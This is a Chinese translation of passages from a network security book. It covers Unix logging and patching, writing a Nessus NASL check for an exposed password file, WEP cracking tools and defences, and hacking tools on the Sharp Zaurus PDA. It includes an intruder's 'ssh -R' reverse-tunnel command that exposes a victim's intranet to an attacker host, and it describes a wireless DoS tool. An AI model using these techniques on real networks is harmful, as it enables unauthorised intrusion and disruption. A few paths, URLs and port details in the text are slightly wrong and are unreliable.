> 根据您的 Unix 或 Linux 发行版，某些日志文件可能位于不同的目录中。如果您找不到这些文件，请使用 find 命令定位：`find /var -name filename -print 2 > /dev/null`。

#### /var/audit

大多数 Solaris 发行版都捆绑了 BSM（基本安全模块），这是一个记录用户操作细节的实用程序。由于 BSM 审计在系统调用级别运行，因此可能会产生巨大的日志。

要启用 BSM，请切换到运行级别 1：

```
init 1
```

接下来，运行 bsmconv：

```
cd /etc/security ; ./.bsmconv
```

配置 `/etc/security/audit_control` 以选择要记录的事件。详细指令请参阅 `http://www.securityfocus.com/infocus/1362`。重启以使更改生效。

#### /var/adm/loginlog

在五次登录尝试失败后，所有进一步的尝试都会被记录到此文件中。每个日志事件包含登录名、tty 信息和时间。只有在文件存在时才会记录。因此，如果该文件不存在，请使用 `touch` 命令创建它。确保此文件仅对 root 可读。

#### /var/adm/sulog

`su` 命令用于登录到另一个用户的账户。例如，用户 joe 可以使用 `su` 登录到 jack 的账户：

```
[joe's_bash]$ su - jack
Password:jackspassword
[jack's_bash]$
```

同样，用户可以使用 `su` 命令以 root 身份登录：

```
[joe's_bash]$ su -
Password:rootpassword
[root's_bash]#
```

记录所有 `su` 尝试非常重要。这样做将有助于检测恶意本地用户的暴力破解密码尝试。编辑 `/etc/default/su` 并确保 `SULOG` 的值指向 `/var/adm/adm/sulog`。您还可以通过将 `SYSLOG` 的值设置为 `YES` 来启用 syslogd 日志记录。

#### /var/log/cron

cron 守护进程将信息记录到此文件中。编辑 `/etc/syslog.conf` 并确保存在以下行：

```
cron.*[tab]/var/log/cron
```

#### /var/log/maillog

此文件包含由主机的邮件服务器记录的信息。关于出站和入站电子邮件的详细信息以及相应的错误消息都被记录在此文件中。编辑 `/etc/syslog.conf` 并确保存在以下行：

```
mail.*[tab]/var/log/maillog
```

#### /var/log/messages

此文件包含由 syslogd 记录的信息消息。要启用对此文件的日志记录，`/etc/syslog.conf` 中必须存在类似于以下的一行：

```
*.info;mail:none;authpriv:none;cron:none	/var/log/messages
```

#### /var/log/secure

通过用户名和密码或其他类似机制进行身份验证的进程通常记录到此文件中。确保此文件仅对 root 可读。`/etc/syslog.conf` 中必须存在类似于以下的一行：

```
authpriv.*	/var/log/secure
```

#### /var/log/wtmp

此日志文件包含有关主机上发生的所有登录的信息。它不是 ASCII 文件，因此必须使用提供的工具（如 last）进行查看。以下示例显示了最近的五次登录或登出尝试：

```
[bash]$ last | head -5
nit pts/0 gateway Fri Apr 11 10:12 still logged in
anita pts/1 nest Thu Apr 10 21:14 still logged in
ozzy pts/1 gateway Thu Apr 10 20:06 - 21:08 (00:01)
kelly pts/1 ftpserver Thu Apr 10 20:01 - 20:02 (00:00)
sharon pts/0 wireless Thu Apr 10 16:34 - 21:26 (04:52)
```

#### /var/run/utmp

此文件包含有关当前登录到主机的用户的信息。它不是 ASCII 文件，因此必须使用 w 或 who 等工具查看。

```
[bash]$ who
deepti pts/0 Apr 14 10:12 (intranet)
yash pts/1 Apr 13 21:14 (egmoreftp)
natasha pts/1 Apr 13 20:10 (punehttp)
```

### 日志轮转

日志文件倾向于增长非常快并消耗大量磁盘空间。对于某些环境，删除旧的日志内容是有意义的。为了启用日志轮转，大多数发行版使用工具

例如 `newsyslog` 或 `logrotate`。这些工具应使用 cron 守护进程以频繁的时间间隔调用。请查阅 `newsyslog` 或 `logrotate` 的 man 手册以获取更多详细信息。

## /var 中的可用空间

根据环境的不同，存储在 `/var` 目录中的日志和 spool 文件可能会变得非常大。建议定期使用 `df` 命令检查 `/var` 中的可用空间量。

`/var` 目录必须挂载为一个单独的分区。请参阅第 8 章中的“磁盘分区”部分以了解更多信息。

## 补丁修复 (PATCHING)

最重要的一点是保持软件补丁和更新的最新状态。诸如 Bugtraq 之类的邮件列表经常列出软件漏洞，而这些漏洞会被软件供应商迅速修复。根据您使用的发行版和软件包管理工具，这些补丁可能分布在不同的位置。下表列出了最流行的 Unix 和 Linux 发行版，以及获取软件补丁的资源：

| 发行版 | 补丁 |
| :--- | :--- |
| AIX | http://techsupportservices.ibm.com/rs6000/fixes |
| BSDi | http://www.bsdi.com/services/support/patches/ |
| Caldera OpenLinux | ftp://ftp.calderasystems.com/pub/updates/OpenLinux/ |
| Debian Linux | http://www.debian.org/security/ |
| FreeBSD | ftp://ftp.freebsd.org/pub/FreeBSD/releases/ |
| IRIX | http://www.sgi.com/support/security/ |
| HP Unix | http://us-support.external.hp.com/ |
| Mandrake Linux | http://www.linux-mandrake.com/en/security/ |
| NetBSD | http://www.netbsd.org/Security/ |
| OpenBSD | ftp://ftp.openbsd.org/pub/OpenBSD/patches/ |
| Red Hat Linux | http://www.redhat.com/support/errata/ |
| Slackware Linux | ftp://ftp.slackware.com/pub/slackware/ |
| Solaris | ftp://sunsolve1.sun.com/pub/patches/ |
| SuSE Linux | http://www.suse.com/us/support/security/index.html |

通常，发行版供应商更新其安全补丁资源需要更多时间。如果您的 Unix 或 Linux 发行版供应商没有列出已公布漏洞的补丁，请尝试前往软件供应商的网站寻找补丁。如果您必须等待发行版供应商提供更新，请考虑暂时禁用或卸载受影响的软件。

此外，请参阅本书参考中心中的“在线资源”部分，寻找可以订阅的邮件列表，以便及时接收最新的软件漏洞公告。

## 总结

必须启用并强制执行日志记录，以捕捉系统活动的详细信息。此外，必须正确设置日志文件的文件权限，以防止恶意用户对其进行篡改。保持软件更新和补丁的最新状态对于防止本地和远程用户利用软件漏洞也至关重要。因此，每位系统管理员都应尝试执行本章提出的建议，以确保防御各种类型的恶意活动和入侵尝试。

## 第三部分

### 特殊主题

- **第 10 章** Nessus 攻击脚本语言 (NASL)
- **第 11 章** 无线黑客攻击
- **第 12 章** 使用 Sharp Zaurus PDA 进行黑客攻击

## 第 10 章

### Nessus 攻击脚本语言 (NASL)

#### 本章内容：

- 从命令行运行 NASL 脚本
- 使用 NASL 编写 Nessus 插件
- 总结

Nessus 是一个免费且开源的安全扫描器，可通过 http://www.nessus.org/ 获取。本章将提供一个分步示例，介绍如何使用 NASL（Nessus 攻击脚本语言）为 Nessus 编写漏洞检查插件。由于 NASL 专门用于编写 Nessus 插件，因此使得这些插件的开发变得简单直接。Nessus 的公开插件列表可以在 http://cgi.nessus.org/plugins/ 找到。

使用 NASL 编写的插件文件名以扩展名 `.nasl` 结尾。由于 NASL 是一种解释型语言，这些文件也被称为 NASL “脚本”。

### 从命令行运行 NASL 脚本

查看 Nessus 安装目录下的 plugins 文件夹，可以找到随每个 Nessus 发行版捆绑的所有 NASL 脚本。NASL 脚本可以使用 nasl 解释器从命令行运行：

```
nasl -t target_ipaddress script.nasl
```

### 使用 NASL 编写 Nessus 插件

在本节中，我们将通过一个示例来学习如何使用 NASL 编写漏洞检查插件。但首先，我们必须构思一个用于检查的示例漏洞。一旦确定了漏洞，我们就可以按照接下来的段落所述，通过编写合适的插件来使用 Nessus 检测它。

#### 示例漏洞

Web 应用程序经常使用文本文件来存储应用程序的设置信息。为了举例，假设一个 Web 应用程序将用户名和密码信息存储在 Web 服务器 Web 根目录下的 `/src/passwd.inc` 之类的文件中。如果运行该应用程序的 Web 服务器被配置为提供 `.inc` 文件，那么这种情况将被视为一个漏洞。外部用户可以通过向 Web 服务器请求 `/src/passwd.inc` 来利用该漏洞，从而获取用户密码。

#### 插件实现

本节介绍如何使用 Nessus 检测 Web 服务器上是否存在 `/src/passwd.inc` 文件。首先，我们必须编写一个 NASL 脚本来实现这一点。该脚本将作为 Nessus 的“插件”。这样一个脚本的样子如下：

```nasl
if(description)
{
    script_id(99999);

    script_version("$Revision: 1.0 $");

    script_name(english: "Checks for /src/passwd.inc");

    desc[ "english"] = "/src/passwd.inc is usually installed
by XYZ application and contains user password information
in clear text.

Solution: Configure your web-browser to not serve .inc
files.

Risk factor : High";

    script_description(english:desc["english"]);

    script_summary(english:"Checks for the existence of
/src/passwd.inc");

    script_category(ACT_GATHER_INFO);

    script_copyright(english:"This script is Copyright
(C)2003 Nitesh Dhanjani");

    script_family(english:"CGI abuses");

    script_require_ports("Services/www", 80);

    exit(0);
}

include("http_func.inc");

port = 80;

if(get_port_state(port))
{
    hget = http_get(item:"/src/passwd.inc", port:port);

    mysoc = http_open_socket(port);

    if(!mysoc)exit(0);

    send(socket:mysoc, data:hget);

    myrec = http_recv(socket:mysoc);

    http_close_socket(mysoc);

    if(!("*404*" >< myrec))
    {
        security_hole(port);
    }
}
```

当 Nessus 运行脚本以提取插件的摘要信息时，`description` 变量的值被设置为 1。因此，我们在 `description` 为真（即非零）时，定义各种插件描述变量的值。

`script_id` 函数为插件设置一个唯一的 ID。每个插件的值必须唯一。在我们的案例中，我们可以将其设置为一个较高的数字（如 9999）以确保值的唯一性。`script_version` 函数显示插件的版本信息。建议更新此数字以反映插件的最新版本。`script_description` 函数设置插件的描述，当用户查询插件时，Nessus 客户端会显示该描述。同样，`script_summary` 函数用于设置插件的摘要描述。

`script_category` 函数根据 Nessus 的要求设置插件的类别。在我们的案例中，我们将其设置为 `ACT_GATHER_INFO`，因为该插件在收集远程服务的信息；也就是说，它在检查 Web 服务器上是否存在 `/src/passwd.inc` 文件。`script_copyright` 函数用于设置作者的版权信息。

Nessus 将插件分为不同的“家族（families）”，以帮助对执行的漏洞检查进行分类。我们将其设置为 “CGI abuses”，以表示是对基于 CGI 的 Web 应用程序的滥用。访问 `http://cgi.nesus.org/plugins/dump.php3?viewby=family` 可以查看按家族分类的公开插件列表。

可以通过在 GUI 客户端的扫描选项 (Scan Option) 选项卡中选择相应的复选框，来配置 Nessus 以优化测试。当这个

当该选项启用时，Nessus 会扫描与目标机开放端口上运行的应用程序相关的漏洞。`script_require_ports` 函数可用于设置与远程机漏洞相关的端口，在我们的案例中，该端口被设置为 `www` (HTTP)。

上述函数为插件设置了各种描述值。可以通过双击 Nessus GUI 客户端“Plugins”选项卡中显示的插件列表中相应的插件名称来查看插件描述。其截图如图 10-1 所示。

`http_func.inc` 文件包含了一系列方便我们使用的实用 HTTP 函数。由于我们使用了该文件中定义的函数，因此我们使用 `include` 函数引入了此文件。

`get_port_state` 函数用于检查目标主机上特定端口的状态。在我们的案例中，我们检查 80 端口。如果该端口关闭，则没有必要继续执行，因此我们调用 `exit(0)`。

为了检查 Web 服务器上是否存在 `/src/passwd.inc` 文件，连接后发送给 Web 服务器的 HTTP 请求必须格式化如下：

```
GET /src/passwd.inc HTTP/1.0
```


图 10-1. Nessus GUI 客户端显示的插件描述

前面的 GET 请求可以使用 `http_get` 函数创建。该请求随后可以用作 `send` 函数的参数，通过 `http_open_sock` 函数打开的套接字连接将请求发送到目标主机。使用 `http_recv` 函数读取来自 Web 服务器的返回数据，并将其内容存储在 `myrec` 变量中。完成后，使用 `http_close_socket` 关闭套接字描述符。然后检查 `myrec` 的内容是否包含子字符串 `404`，如果文件在 Web 服务器上不存在，则会出现该字符串。这是通过 `<` 运算符完成的，该运算符用于检查给定字符串变量中的子字符串。如果在 Web 服务器返回的数据中未找到 `404`，那么该文件很可能存在，通过调用 `security_hole` 函数将此事实告知 Nessus。

请参阅 http://www.nessus.org/doc/nasl2_reference.pdf 以获取最新的 NASL 参考手册。

## 运行插件

确保将上述脚本放置在 Nessus 的 plugins 目录中。该脚本的文件名必须以 `.nasl` 扩展名结尾。运行 Nessus GUI 并选择 “Plugins” 选项卡。确保选中了 “CGI Abuses”。突出显示 “CGI Abuses” 并确保名为 “Checks for /src/passwd.inc” 的插件已启用。如果您在寻找该插件时遇到困难，请点击 “Filter” 按钮并搜索 ID `99999`。

为了让我们的插件获得正向结果，您必须配置一个本地 Web 服务器来提供 `/src/passwd.inc` 文件。如果您在主机上运行 Apache Web 服务器，只需使用 `touch` 命令在 Web 服务器的 Web 根目录下创建 `/src/passwd` 文件：

```bash
mkdir /var/www/html/src
touch /var/www/html/src/passwd
```

在 “Target Selection” 选项卡中输入目标 Web 服务器的 IP 地址或名称，然后点击 “Start The Scan”。如果一切顺利，Nessus 将检测并报告我们的自定义漏洞，如图 10-2 所示。


**图 10-2.** Nessus 报告指出易受攻击的 Web 服务器上存在 /src/passwd.inc

## 本章小结

本章演示了使用 NASL 语言为 Nessus 扫描器编写插件的便捷性。首先，展示了一个 Web 应用程序漏洞示例。接着，详细讨论了检测该漏洞的 NASL 脚本的创建过程，并对脚本源代码进行了逐步解释。此外，还提供了如何将 NASL 脚本整合到 Nessus 插件列表中的说明。大型组织经常使用自研软件应用程序，其中可能会发现漏洞。此外，Nessus 扫描程序包可能不包含某些对组织安全态势至关重要的漏洞检查。本章包含的信息可用于从零开始编写 Nessus 插件，以检测此类漏洞。


## 第 11 章：无线黑客

### 本章内容：

- WEP 简介
- 天线
- 常用工具
- 保护无线网络
- 本章小结

无线网络的搭建非常简单，对于那些厌恶被以太网线束缚的人来说是一项福音。但从安全角度来看，它们也是一场噩梦，因为 802.11b 标准中使用的有线等效私有性（WEP）协议存在漏洞。由于 Aircrack 和 Kismet 等开源工具的广泛可用，任何拥有无线网卡和笔记本电脑的人都有可能入侵无线网络。已知有些人会在城镇中开车巡游，寻找无线网络范围延伸至办公区域之外（如停车场等可进入地点）的公司，这种活动被称为 “war driving”（战争驾驶）。不幸的是，许多无线网络管理员没有意识到这一点，也不 aware 自己容易受到此类入侵者的攻击。本章介绍了入侵者用于获取无线网络访问权限的工具和技术，并就如何更好地防御提供了建议。

## WEP 简介

由于 WEP 基于对称共享密钥系统，它使用相同的密钥对数据进行加密和解密。密钥 ($k$) 的长度为 128 位或 64 位，由一个 24 位的初始化向量 (IV) 组成。WEP 负载的构建方式如下：

1. 消息 $M$ 与其自身的 CRC-32 校验和 $c(M)$ 拼接。
2. 在密钥之前应用 $IV$，并将其通过 RC4 流加密算法。
3. 将步骤 1 和 2 的结果进行 XOR（异或）运算以产生密文。然后将 $IV$ 与密文拼接，产生 WEP 负载。



从上述步骤可以明显看出，WEP 帧以明文形式包含 IV。许多无线网卡随机选择 IV，而另一些则从 0 开始顺序递增。由于 IV 仅 24 位长，无线网卡或访问点每隔几个小时就会重复使用同一个 IV。

## 天线

请注意，最终传输的帧在包含其他信息的同时，其 MAC（介质访问控制）源地址和目的地址信息是以明文形式传输的。

像 Airsnort 这样的工具利用了 RC4 密钥调度算法 (KSA) 的弱点。这些弱点的详细信息由 Scott Fluhrer、Itsik Mantin 和 Adi Shamir 在一篇研究论文中提出。可以通过访问以下 URL 获取该论文：`http://www.drizzle.com/~aboba/IEEE/rc4_ksaproc.pdf`。

在对某个区域的无线活动进行审计时，找到合适的天线至关重要。使用天线可以接收到那些在其他情况下无法检测到的网络无线信号。

**定向天线 (Directional)**：顾名思义，定向天线专注于特定方向来接收和发送信号。这类天线在两个地点之间创建无线桥接时最为有用。定向天线通常用于建立两个远程地点之间的点对点链路。因此，在移动状态下或信号方向未知时，它们没有太大帮助。常见的定向天线类型包括八木天线和抛物面天线。

**全向天线 (Omnidirectional)**：全向天线通常用于扩展访问点的覆盖范围。它们在所有方向上发送和接收信号。因此，全向天线在进行 “war-driving” 测试的人员中非常受欢迎。

以下是专注于天线的知名供应商列表：

- Fleeman Anderson & Bird Corp: `http://fab-corp.com/`
- HyperLink Technologies: `http://www.hyperlinktech.com/`
- NetNimble: `http://www.netnimble.net/`
- SuperPass: `http://www.superpass.com/`
- Wireless Central: `http://wirelesscentral.net/`

想要构建自己的低成本天线？请访问 `http://www.turnpoint.net/wireless/has.html` 查看 “802.11b Homebrew Antenna Shootout”。


## 常用工具

Airsnort 和 Kismet 是最流行且最实用的无线黑客工具。它们可用于检测无线网络以及破解启用 WEP 的网络的加密密钥。

> 对于启用 WEP 的网络，入侵者必须采取的第一步是通过使用 Airsnort 等工具获取 WEP 加密密钥。在获取密钥并成功加入无线网络后，入侵者可以使用 Ettercap、tcpdump 和 Ethereal 等常用工具来分析网络流量。

### Airsnort

如图 11-1 所示，Airsnort 是一款基于 Linux 的网络嗅探工具，它通过被动监听无线传输来破解 WEP 加密密钥。Airsnort 可在 http://airsnort.shmoo.com/ 获取。目前，Airsnort 支持以下无线网卡：

- Cisco Aironet。
- 基于 Prism2 的网卡。支持的网卡列表请参阅 http://www.linux-wlan.org/。
- Orinoco 网卡。请从 http://airsnort.shmoo.com/orinocoinfo.html 下载驱动补丁和相关信息。

常见问题和解答请参阅 Airsnort FAQ，网址为 http://airsnort.shmoo.com/faq.html。



### Kismet

如图 11-2 所示，Kismet 是一款无线网络嗅探器，可用于捕获和查看某个区域内无线网络的信息。它具有以下特点：

- Ncurses 界面
- 信道跳变（Channel hopping）
- 多个数据包源
- IP 块检测
- 支持使用 gpsmap 进行 GPS 映射
- 即时 WEP 解密

……以及许多其他功能。欲了解更多信息，请访问 http://www.kismetwireless.net/documentation.shtml。

有关如何在 Linux 上安装和使用 Kismet 的详细说明，请参阅 http://www.tipsybottle.com/technology/wireless/RedHat8-Kismet-HOWTO.shtml。该文章中的大多数说明同样适用于 Airsnort。

### Fata-Jack

Fata-Jack 是 Wlan-Jack 工具的修改版本。它以关联客户端的源地址向访问点（AP）发送身份验证请求。该身份验证数据包经过特意构造，包含无效信息。当访问点接收到此数据包时，它会取消被伪造地址客户端的身份验证。受害者客户端现在必须重新与 AP 进行身份验证。因此，能够访问网络 AP 的恶意用户可以使用该工具发起拒绝服务攻击（DoS）。

Fata-Jack 可从 **http://www.loud-fat-bloke.co.uk/w80211.html** 下载。关于 Wlan-Jack 的信息可见 **http://802.11ninja.net/**。

## 无线网络安全

使用 Airsnort 等工具，通常约 5,000,000–10,000,000 个数据包就足以破解 WEP 密钥。通常，一个相当活跃的网络在几个小时内就会传输这么多数据包。因此，在部署和管理无线网络时，必须确保足够的安全性。以下是一些建议：

1. **将网络视为“不可信”**：无线网络必须被视为不可信的，并且与组织的内部网络分开。如果必须允许无线用户访问可信网络，建议建立 VPN（虚拟专用网络），以便无线用户可以使用支持加密的 VPN 客户端进行连接。同时，考虑使用支持 LEAP（轻量级可扩展身份验证协议）的访问点。此外，鼓励使用采用 WEP-Plus 算法的网络设备，以避免传输具有弱初始化向量（IV）的帧，从而防止 Airsnort 等软件成功破解 WEP 加密密钥。

2. **鼓励使用加密工具**：SSH 等工具有助于创建加密隧道，应尽可能使用。内网网站必须支持 SSL。

3. **不允许通过无线方式管理访问点**：某些访问点允许禁用无线管理功能。这是一个好主意，因为这样配置访问点就需要物理接触设备。

4. **更改默认 ESSID 并禁用广播**：ESSID（扩展服务集标识符）是一个输入到访问点和以太网卡作为配置参数的字符串。具有相同 ESSID 的设备参与同一个网络。访问点在出厂时配置有特定的默认 ESSID，通常是供应商的名称。更改这些默认 ESSID 是一个好主意。许多访问点还会广播其 ESSID，以便无线客户端从可用网络中进行选择。建议将访问点配置为禁用此功能，因为它向未经授权使用网络的人广播网络信息。请注意，此步骤不能保证太高的安全性，不应过度依赖。

5. **MAC 地址过滤**：考虑利用支持 MAC 地址过滤的访问点，仅允许具有已知 MAC 地址的选定客户端使用网络。然而，这无法阻止高级黑客，因为合法用户的 MAC 地址将以明文传输。这些地址可以从空中被嗅探并被伪造，从而获取网络访问权限。维护授权 MAC 地址列表是一项相当艰巨的任务，因此在大型组织中可能难以实施。

### 总结

在介绍了 WEP 协议之后，本章重点描述了可用于利用和检测无线网络弱点的无线安全工具。流行的 Airsnort 工具可用于破解无线网络中使用的 WEP 加密密钥。Kismet 无线嗅探器可用于检测和识别区域内的无线网络。Fata-jack 程序可用于对无线网络主机发起拒绝服务攻击。本章还讨论了不同类型无线天线的优势和用途。最后，本章提出了关于如何更好地保障无线网络免受入侵尝试的建议。因此，强烈建议无线网络管理员理解并执行本章中提出的建议。

## 第 12 章：使用 Sharp Zaurus PDA 进行黑客攻击

### 本章内容：

- Kismet
- Wellenreiter II
- Nmap
- Openmapfe
- Bing
- OpenSSH
- Hping2
- VNC Server
- Keypebble VNC Viewer
- Smbmount
- Tcpdump
- Wget
- ZEthereal
- zNessus
- MTR
- Dig
- Perl
- Zaurus 在线资源
- 总结

Sharp Zaurus PDA（个人数字助理）设备运行的是嵌入式版本的 Linux 操作系统。该 PDA 内置支持各种 Compact-Flash 802.11 网卡。这些特性加上 PDA 的小型尺寸，使 Zaurus 成为一个强大的设备。在本章中，我们将探讨许多已经移植到 Zaurus 架构的 Linux 安全工具。为了满足你的好奇心，我们将尽可能提供屏幕截图。

## KISMET

Kismet 是一款无线网络嗅探器，可用于捕获和查看区域内无线网络的信息。入侵者不再需要携带笨重的笔记本电脑来发现周围区域的无线网络。只需要一台 Zaurus PDA 以及可从 **http://kismetwireless.net/code/** 下载的 Kismet 移植版本即可。当你从该 URL 下载、解压并解包 tar.gz 文件后，你会发现在创建的 `kismet-arm` 目录中有一个 `ipk` 软件包文件。使用文件管理器打开此文件以安装 Kismet，它在 PDA 上运行时如下图所示。



Kismet 的 GUI 版本可在 **http://sourceforge.net/projects/kismet-qte/** 获取。


## WELLENREITER II

Wellenreiter 是一款无线网络监控工具，可用于检测和识别特定区域内的无线网络。未来版本的 Wellenreiter 将支持 WEP 破解和数据包注入。可从 `http://opie.net.wox/wellenreiter/feed/` 下载 Wellenreiter。

## NMAP

一旦入侵者使用 Kismet 等工具获得了无线网络的访问权限，他或她很可能会针对该网络的 IP 范围进行网络扫描，以发现并枚举主机。Nmap 是目前功能最丰富的端口扫描器之一。（有关如何使用 Nmap 通过多种方法进行端口扫描的详细信息，请参阅第 2 章。）Nmap 的 Zaurus 移植版（如下所示）可从 `http://familiar.handhelds.org/familiar/releases/v0.7/base/armv4l/` 获取。



## QOPENMAPFE

Openmapfe 是图 12-3 中所示的 Zaurus Nmap 移植版的 GUI 前端，可从 `http://home.midsouth.rr.com/zaurus/` 获取。对于那些不熟悉或不习惯使用 Nmap 命令行参数的人来说，这是一个非常有用的工具。

## BING

Bing（在接下来的对话框中所示）是一个自动执行端口扫描的简单脚本。执行时，它通过广播 ping 请求来发现当前子网中的活动主机。然后，它会列出子网中响应 ICMP 回显请求的主机列表。随后，您可以从给定列表中选择一台主机（使用 Nmap）对其进行端口扫描。从 http://www.claystuckey.com/chad/bing_0.0.1_arm.ipk 下载 Bing 的软件包文件。




## OPENSSH

OpenSSH 套件包含支持 SSH 协议的免费客户端版本，还包括一个免费的 SSH 服务器版本。OpenSSH 的 Zaurus 移植版可以在 `http://killefiz.de/zaurus/showdetail.php?app=1035` 找到。

入侵者可以使用 OpenSSH 客户端创建一条安全隧道，将组织网络连接到他或她舒适的家中。考虑这样一种情况：一名已获得组织无线网络访问权限的入侵者在自己的 PDA 上运行以下命令：

```
ssh -R 80:intranet.victimorgasanexample.com:8000 intruder@intruders_ip
```

在入侵者发出此命令并输入其账户密码后，目标组织网络与入侵者主机之间将建立一条安全隧道。入侵者主机上 8000 端口的任何连接都将通过安全的 OpenSSH 隧道重定向到受害组织内部主机 intranet.victimorgasanexample.com 的 80 端口。现在，入侵者只需找个安全的地方藏好他的 Zaurus，然后回到家中，在方便的时候利用 intranet.victimorgasanexample.com 即可！

## HPING2

Hping2 是一个用于发送任意网络数据包的工具。入侵者可以用它来测试组织的防火墙规则集。Hping2 的手册页面可在 `http://www.hping.org/manpage.html` 在线查阅。Zaurus 移植版可从 `http://killefiz.de/zaurus/showdetail.php?app=902` 获取。

下图展示了 Hping2 的运行情况。请注意，它是使用 `-S` 标志运行的，该标志向目标主机的 111 端口发送 SYN 数据包。由于目标主机正在监听此端口，它会响应一个 SYN+ACK 数据包，这在 Hping2 的输出中由 "flags=SA" 表示。



## VNC SERVER

VNC（虚拟网络计算）是一个远程控制软件包，允许用户访问另一台主机的桌面。VNC 服务器的 Zaurus 移植版可从 `http://sdgsystems.com/download.html` 获取。Zaurus 用户可能会发现 VNC 服务器在远程访问其 PDA 时非常有用。

另一方面，由于 Zaurus PDA 可以运行各种服务器软件（如 SSH），因此有可能对这类服务尝试暴力破解攻击。一旦 PDA 上的账户被攻破，入侵者可能会在受害 PDA 上安装 VNC 服务器，从而控制该设备（见图 12-1）。


**图 12-1.** 使用 VNC 远程控制 Zaurus PDA

## KEYPEBBLE VNC VIEWER

很多时候，用户会错误地将 VNC 服务器配置为弱密码或无密码。获得了组织内网访问权限的入侵者可以使用 VNC 查看器连接到脆弱的 VNC 服务器，以控制这些配置错误的主机（见下图）。其中一款查看器 Keypebble VNC viewer 可用于 Sharp Zaurus PDA，并可从 http://killefiz.de/zaurus/showdetail.php?app=186 下载。


## SMBMOUNT

Smbmount 工具允许用户挂载 Samba 网络共享。通常，用户会将其 Samba 文件共享配置为弱密码或无密码。入侵者可以使用 Smbmount 工具访问此类共享。（有关 Samba 配置错误的详细信息，请参阅第 4 章。）Smbmount 工具的 Zaurus 移植版可以在 http://www.dasgehdichtnichtsan.de/zaurus/smbmount.html 找到。

## TCPDUMP

Tcpdump 是一款流行的网络分析程序，可用于嗅探网络段上的敏感数据（见下图）。网络管理员也使用 Tcpdump 和其他网络分析程序进行故障排除。Zaurus 版的 Tcpdump 可从 `http://www.sklogicsoftware.com/znetmeter/tcpdump_zaurus.html` 下载。



## WGET

Wget 是一个用于通过 HTTP、HTTPS 和 FTP 协议下载文件的工具。它具有许多有用的功能，包括递归下载网站文件的能力。获得了组织无线网络访问权限的入侵者可以使用 Wget 快速镜像该组织的内网网站。Wget 在 Zaurus 上是默认安装的。

## ZETHEREAL

